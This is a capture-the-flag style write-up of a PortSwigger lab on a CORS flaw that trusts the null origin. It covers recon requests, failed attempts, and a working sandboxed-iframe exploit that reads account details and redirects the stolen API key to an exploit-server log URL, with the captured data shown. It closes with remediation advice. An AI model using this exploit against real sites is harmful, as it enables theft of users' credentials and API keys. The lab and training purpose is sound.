

---

# CORS Vulnerability Exploit: Trusted Null Origin (PortSwigger Lab)

## Lab Information
- **Lab:** CORS vulnerability with trusted null origin
- **Level:** Practitioner
- **Platform:** PortSwigger Web Security Academy

---

## Vulnerability Summary

The application accepts the `Origin: null` header in CORS requests and reflects it in the `Access-Control-Allow-Origin` response header with `Access-Control-Allow-Credentials: true`.

This allows **any domain** to make authenticated cross-origin requests to the vulnerable endpoint and read the response.

**Why `null` origin is dangerous:** Browsers send `Origin: null` in sandboxed iframes, local files, and data URLs. A malicious page can force `null` origin and exploit this misconfiguration.

---

## Tools Used
- Burp Suite (Repeater, HTTP History)
- PortSwigger Exploit Server
- Firefox Browser (Victim simulation)

---

## Step 1: Reconnaissance & Confirmation

### 1.1 Login and Observe
Log in with credentials: `wiener:peter`

Navigate to **My account** → Observe AJAX request to `/accountDetails`

### 1.2 Burp Repeater Test

**Original Request:**
```http
GET /accountDetails HTTP/2
Host: 0acf00da0416a3598010a33b00e50022.web-security-academy.net
Cookie: session=d2K5lW5xBXT7van3Lu24EyrZigOoPNI2
```

**Modified Request (Add `Origin: null`):**
```http
GET /accountDetails HTTP/2
Host: 0acf00da0416a3598010a33b00e50022.web-security-academy.net
Origin: null
Cookie: session=d2K5lW5xBXT7van3Lu24EyrZigOoPNI2
```

**Vulnerable Response:**
```http
HTTP/2 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json

{
  "username": "wiener",
  "apikey": "uwHvXVWu7mHRqrDE7O9GyqT8oM8Uy0U6",
  "sessions": ["d2K5lW5xBXT7van3Lu24EyrZigOoPNI2"]
}
```

✅ **Confirmed:** Server reflects `null` origin and allows credentials.

---

## Step 2: Failed Exploit Attempts & Lessons

### Attempt 1: Using `fetch()` with JSON parsing

```javascript
fetch('/accountDetails', {credentials: 'include'})
.then(r => r.json())
.then(data => fetch('/log?key=' + data.apikey));
```

**Result:** `Failed to fetch` error in access log

**Why it failed:**
- `fetch()` requires CORS headers on the exfiltration target
- The second `fetch()` to `/log` is a **new cross-origin request** that gets blocked
- The exploit server does not return CORS headers

**Lesson:** Do NOT make a second cross-origin request. Redirect instead.

---

### Attempt 2: Missing `https://` in URLs

```html
<iframe sandbox="allow-scripts" srcdoc="
fetch('0acf00da...academy.net/accountDetails')
">
```

**Result in Access Log:**
```
GET /exploit/0acf00da...academy.net/accountDetails HTTP/1.1" 404
```

**Why it failed:**
- Browser treated the URL as **relative path** under `/exploit/`
- No protocol → relative resolution

**Lesson:** Always include full `https://` in iframe `srcdoc` URLs.

---

### Attempt 3: Wrong Endpoint Assumption

**Observation:** `/accountDetails` worked for user `wiener` but returned `404` for the administrator victim.

**Access Log Evidence:**
```
10.0.4.163 "GET /accountDetails HTTP/1.1" 404
```

**Lesson:** Different user roles may have different API endpoints. Test with the actual victim's privileges.

---

### Attempt 4: Missing `allow-top-navigation`

Without this permission in the sandbox, the iframe cannot redirect.

**Fix:** Add `allow-top-navigation` to the sandbox attribute.

---

## Step 3: Working Exploit (Final Code)

### Complete Exploit HTML

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0acf00da0416a3598010a33b00e50022.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location = 'https://exploit-0a3200da045da36e800fa2be01a200d4.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };
</script>
"></iframe>
```

### Critical Components Explained

| Component | Purpose |
|-----------|---------|
| `sandbox="allow-scripts allow-top-navigation allow-forms"` | Forces `Origin: null` + allows redirect |
| `XMLHttpRequest` (not `fetch`) | More reliable for CORS with null origin |
| `withCredentials = true` | Sends cookies (maintains session) |
| `location =` redirect | Exfiltrates data WITHOUT second CORS request |
| `encodeURIComponent()` | Safely encodes JSON for URL transmission |
| Full `https://` URLs | Prevents relative path resolution |

---

## Step 4: Attack Flow Diagram

```
Victim logged into vulnerable site
         ↓
Victim visits exploit server page
         ↓
Exploit creates sandboxed iframe
         ↓
Iframe sends XHR to /accountDetails with Origin: null
         ↓
Server sees null → reflects ACAO: null, ACAC: true
         ↓
Browser allows iframe to read response
         ↓
Iframe redirects to exploit-server.net/log?key={stolen_data}
         ↓
Exploit server logs the request with API key
         ↓
Attacker retrieves API key from access log
```

---

## Step 5: Successful Access Log Entry

After delivering the exploit, the access log showed:

```
10.0.4.163 2026-04-19 08:51:55 +0000 "GET /log?key=%7B%0A%20%20%22username%22%3A%20%22administrator%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22aa3gkagzlKmgKRGBIHavOKfgX4K26GUi%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22fTm1zFx0o9aOejUmlrkwVccvxCIx7zEg%22%0A%20%20%5D%0A%7D HTTP/1.1" 200
```

**Decoded stolen data:**
```json
{
  "username": "administrator",
  "email": "",
  "apikey": "aa3gkagzlKmgKRGBIHavOKfgX4K26GUi",
  "sessions": ["fTm1zFx0o9aOejUmlrkwVccvxCIx7zEg"]
}
```

✅ **Administrator API key stolen successfully**

---

## Step 6: Key Takeaways

### Why `XMLHttpRequest` over `fetch()`?
| Feature | `fetch()` | `XMLHttpRequest` |
|---------|-----------|------------------|
| CORS with null origin | Sometimes fails | More reliable |
| Preflight requests | Can block | Handles better |
| Browser support | Modern | Universal |

### Why `location` redirect over `fetch()` exfiltration?
| Method | CORS Required? | Works? |
|--------|---------------|--------|
| `fetch()` to exploit server | YES (exploit server needs CORS) | ❌ |
| `location` redirect | NO (same-origin navigation) | ✅ |

### Why Full `https://` URLs?
- Without protocol → browser resolves relative to current path
- Results in `/exploit/YOUR-LAB-ID...` → 404

### Why Sandbox Attribute?
- `sandbox` forces browser to send `Origin: null`
- Without it, browser sends real origin → server may reject

---

## Step 7: Remediation Advice (For Developers)

**To fix this vulnerability:**
1. **Never** whitelist `null` origin in production
2. **Never** reflect arbitrary `Origin` headers
3. Use a strict whitelist of allowed domains
4. Validate origins with exact match, not prefix/suffix
5. Avoid `Access-Control-Allow-Credentials: true` unless absolutely necessary

**Example of secure configuration:**
```javascript
const allowedOrigins = ['https://trusted.com', 'https://api.trusted.com'];
if (allowedOrigins.includes(requestOrigin)) {
    response.setHeader('Access-Control-Allow-Origin', requestOrigin);
}
// Never include 'null'
```

---

## Conclusion

This lab demonstrates a **dangerous CORS misconfiguration** where trusting the `null` origin allows complete account takeover via a sandboxed iframe exploit.

The key to success was:
- Using `XMLHttpRequest` instead of `fetch()`
- Redirecting with `location` instead of making a second request
- Including full `https://` URLs
- Adding `allow-top-navigation` to the sandbox

**Lab Solved.** ✅

---

## References
- [PortSwigger: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin)
- [MDN: CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
- [MDN: iframe sandbox](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox)
- [MDN: XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)

---

*Write-up by Tsegazeab Fikre*
*Date: April 2026*

